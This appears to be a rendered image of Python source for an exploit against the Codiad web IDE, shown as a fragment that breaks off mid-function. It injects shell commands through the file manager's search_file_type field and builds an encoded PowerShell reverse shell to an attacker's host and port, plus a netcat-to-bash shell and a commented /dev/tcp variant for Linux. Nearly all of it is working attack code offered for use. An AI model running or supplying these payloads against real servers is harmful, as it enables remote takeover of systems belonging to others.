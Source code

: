 ```python
    global session
    url = domain + "/components/project/controller.php?action=get_current"
    response = session.get(url, verify=False)
    content = response.content.decode('utf-8')
    print("[+] Path Content : %s" % (content))
    json_obj = json.loads(content)
    if json_obj['status'] == "success":
        return json_obj['data']['path']
    else:
        return False


def base64_encode_2_bytes(host, port):
    payload = '''
    $client = New-Object System.Net.Sockets.TCPClient("__HOST__",__PORT__);
    $stream = $client.GetStream();
    [byte[]]$bytes = 0..255|%{0};
    while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
        $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
        $sendback = (iex $data 2>&1 | Out-String );
        $sendback2  = $sendback + "PS " + (pwd).Path + "> ";
        $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
        $stream.Write($sendbyte,0,$sendbyte.Length);
        $stream.Flush();
    }
    $client.Close();
    '''
    result = ""
    for i in payload.replace("__HOST__", host).replace("__PORT__", str(port)):
        result += i + "\x00"
    return base64.b64encode(result.encode('utf-16le')).decode('utf-8').replace("\n", "")


def build_powershell_payload(host, port):
    preffix = "powershell -ep bypass -NoLogo -NonInteractive -NoProfile -enc "
    return preffix + base64_encode_2_bytes(host, port).replace("+", "%2b")


def exploit(domain, username, password, host, port, path, platform):
    global session
    url = domain + "components/filemanager/controller.php?type=1&action=search&path=%s" % (path)
    if platform.lower().startswith("win"):
        # new version escapeshellarg
        # escapeshellarg on windows will quote the arg with ""
        # so we need to try twice
        payload = '||%s||' % (build_powershell_payload(host, port))
        payload = "search_string=Hacker&search_file_type=" + payload
        headers = {"Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"}
        response = session.post(url, data=payload, headers=headers, verify=False)
        content = response.content.decode('utf-8')
        print(content)

        # old version escapeshellarg
        payload = '%%22||%s||' % (build_powershell_payload(host, port))
        payload = "search_string=Hacker&search_file_type=" + payload
        headers = {"Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"}
        response = session.post(url, data=payload, headers=headers, verify=False)
        content = response.content.decode('utf-8')
        print(content)
    else:
        # payload = '''SniperOJ%22%0A%2Fbin%2Fbash+-c+'sh+-i+%3E%26%2Fdev%2Ftcp%2F''' + host + '''%2F''' + port + '''+0%3E%261'%0Agrep+%22SniperOJ'''
        payload = '"%%0Anc %s %d|/bin/bash %%23' % (host, port)
```